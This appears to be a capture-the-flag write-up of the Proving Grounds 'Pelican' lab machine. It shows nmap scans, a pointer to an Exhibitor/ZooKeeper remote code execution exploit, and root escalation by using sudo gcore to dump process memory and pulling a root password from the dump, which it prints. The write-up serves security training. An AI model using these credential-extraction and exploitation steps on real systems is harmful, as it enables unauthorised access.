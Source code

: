 ```yaml
---
title: Pelican Write up
date: 2023-12-1 12:00:00 -500
categories: [writeup]
tags: [proving grounds]
# TAGS should always be lowercase
---
```


# Welcome to my Pelican Write-up 

## Recon

Let's start with some enumeration.



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -Pn -T4 -oA nmap 192.168.164.98</span>
</div>


    Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-16 09:20 EST
    Nmap scan report for 192.168.164.98 (192.168.164.98)
    Host is up (0.13s latency).
    Not shown: 993 closed tcp ports (reset)
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
    |   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
    |_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  etbios-p  Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
    631/tcp  open  ipp         CUPS 2.2
    |_http-server-header: CUPS/2.2 IPP/2.1
    | http-methods: 
    |_  Potentially risky methods: PUT
    |_http-title: Forbidden - CUPS v2.2.
    2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
    |   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
    |_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
    8080/tcp open  http        Jetty 1.0
    |_http-title: Error 404 Not Found
    |_http-server-header: Jetty(1.0)

    8081/tcp open  http        nginx 1.14.2
    |_http-title: Did not follow redirect to http://192.168.164.98:8080/exhibitor/v1/ui/index.html
    |_http-server-header: nginx/1.14.2



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -p- --min-rate=5000 192.168.164.98</span>
</div>
<br>


![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image1.png)



<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sU --min-rate=10000 192.168.164.98</span>
</div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image2.png)

## Initial Foothold

This machine's ssh and samba versions are not vulnerable. Also there is nothing to be found on port 8080.

Let's visit the web app running on port 8081.

http://192.168.164.98:8081


![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image3.png)


We get redirected to http://192.168.164.98:8080/exhibitor/v1/ui/index.html

I searched in google for the zookeeper exploit then I found this:

[https://www.exploit-db.com/exploits/48654](https://www.exploit-db.com/exploits/48654)



![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image8.png)

To exploit the vulnerability we need to follow these steps:

Config:

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image4.png)


Enable Editing

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image5.png)

Edit the script

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image6.png)


![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image7.png)


### <span style="color:green">2nd Method



![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image9.png)





## Privilege Escalation

Using linpeas I found:

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image10.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo -l</span>
</div>
<br>


![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image11.png)

It seems like we can run /usr/bin/gcore without a password as charles.

![gif 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/heheboy.gif)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">It can be used to generate core dumps of running processes. Such files often contains sensitive information such as open files content, cryptographic keys, passwords, etc. This command produces a binary file named core.$PID, that is then often filtered with strings to narrow down relevant information.</span>


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> ps -ef | grep ssh</span>
</div>
<br>

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image13.png)

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> sudo gcore 526</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.526</span>
</div>
<br>

I got lots of output but nothing interesting. Then I tried with password instead of ssh.


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> ps -ef | grep pass</span>
</div>
<br>

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image13.png)


<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:/opt/zookeeper$<span style="color:red"> sudo gcore 493</span>
</div>
<br>

<div style="background-color: #1e2124; padding: 10px;">
charles@pelican:~$<span style="color:red"> strings core.493</span>
</div>
<br>


![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image15.png)

Interesting! We found a password.

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image14.png)


<div style="background-color: #1e2124; padding: 10px;">
>harles@pelican:~$<span style="color:red"> su</span>
</div>
<br>

ClogKingpinInning731


<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /root/proof.txt && whoami && hostname && ip a</span>
</div>
<br>


![image 16](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image16.png)



<div style="background-color: #1e2124; padding: 10px;">
root@pelican:/home/charles#<span style="color:red"> cat /home/charles/local.txt && whoami && hostname && ip a</span>
</div>
<br>



![image 17](https://raw.githubusercontent.com/thehunt1s0n/media/main/Pelican/image17.png)


pwned :)


-----------------------------------------------



[link](https://drive.google.com/file/d/1KmEYiNSni51vjTipz84OwKWSnYcywizC/view?usp=drive_link)